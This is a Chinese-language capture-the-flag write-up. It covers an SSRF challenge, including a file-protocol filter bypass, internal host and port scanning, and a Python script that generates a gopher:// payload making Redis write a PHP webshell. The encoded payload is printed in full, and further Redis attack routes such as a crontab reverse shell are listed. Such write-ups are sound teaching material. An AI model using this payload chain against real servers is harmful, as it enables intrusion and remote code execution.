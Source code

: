 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-20
---
```


## 思路

1. 打开网页显示如下：

   <img src="../images/image-20210120160201453.png" alt="image-20210120160201453" width="50%;" />

   F12后看到有提示`?secret`，则在url中加上`?secret`，可以看到如下信息，发现三个IP。

   <img src="../images/image-20210120160353817.png" alt="image-20210120160353817" width="50%;" />

2. 该题将输入url传入后端，题目也提示了IP，猜测利用ssrf漏洞。

   当输入127.0.0.1时，页面上会显示别这样，说明后端会对输入的内容进行检查。

3. 尝试获取index.php源码，`file:%20///var/www/html/index.php`或`file:/var/www/html/index.php`绕过对file协议的过滤。

   分析下面源码，发现index.php过滤了file和dict协议，但没有过滤http和gopher协议。

   因此我们可以使用http来探测内网中存活的IP，以及对应开放的端口，从而猜测对应使用什么服务，查找有没有漏洞可以利用。

   ![image-20210120161502410](../images/image-20210120161502410.png)

4. 利用burpsuite进行测试

   <img src="../images/image-20210120162327366.png" alt="image-20210120162327366" width="60%;" />

   最后的结果为：

   <img src="../images/image-20210120162607222.png" alt="image-20210120162607222" width="50%;" />

   10.69.29.5对应页面为：

   <img src="../images/image-20210120162844104.png" alt="image-20210120162844104" style="zoom:50%;" />

   10.69.29.6对应页面为：

   

   <img src="../images/image-20210120163014199.png" alt="image-20210120163014199" width="50%;" />

   10.69.29.7对应页面为：

   <img src="../images/image-20210120163100619.png" alt="image-20210120163100619" width="67%;" />

   10.69.29.11对应页面为：

   <img src="../images/image-20210120164051615.png" alt="image-20210120164051615" width="50%;" />

   这个页面提示端口，对该IP的其他端口再进行探测：

   <img src="../images/image-20210120164340440.png" alt="image-20210120164340440" width="60%;" />

   另外把线程数调少，避免出现429。

<img src="../images/image-20210120164455040.png" alt="image-20210120164455040" width="40%;" />



5. 扫描出来发现端口6379和80开放。

   6379是redis端口，根据[网鼎杯 玄武组 SSRFMe](./[网鼎杯%202020%20玄武组]SSRFMe.md)提过的四种利用方式：

   1. 可写webshell
   2. 写ssh公钥
   3. 写crontab反弹shell
   4. redis主从复制rce

   本题可以尝试写入webshell，利用gopher协议写入shell.php。

   生成payload的脚本如下：

   ```python
   import urllib
   protocol="gopher://"
   ip="10.69.29.11"      // 运行有redis的主机ip
   port="6379"
   shell="\n\n<?php system(\"cat /flag\");?>\n\n"
   filename="shell.php"
   path="/var/www/html"
   passwd=""
   cmd=["flushall",
   	 "set 1 {}".format(shell.replace(" ","${IFS}")),
   	 "config set dir {}".format(path),
   	 "config set dbfilename {}".format(filename),
   	 "save"
   	 ]
   if passwd:
   	cmd.insert(0,"AUTH {}".format(passwd))
   payload=protocol+ip+":"+port+"/_"
   def redis_format(arr):
   	CRLF="\r\n"
   	redis_arr = arr.split(" ")
   	cmd=""
   	cmd+="*"+str(len(redis_arr))
   	for x in redis_arr:
   		cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
   	cmd+=CRLF
   	return cmd
   
   if __name__=="__main__":
   	for x in cmd:
   		payload += urllib.quote(redis_format(x))
   	print payload
   
   ```

6. 生成的payload为：

   `gopher://10.69.29.11:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2432%0D%0A%0A%0A%3C%3Fphp%20system%28%22cat%20/flag%22%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A`

   传入url后，再提交`http://10.69.29.11/shell.php`，即可获得flag。

## 总结

- 利用http协议探测内网开放的IP和端口。
- redis+ssrf，利用gopher协议写入webshell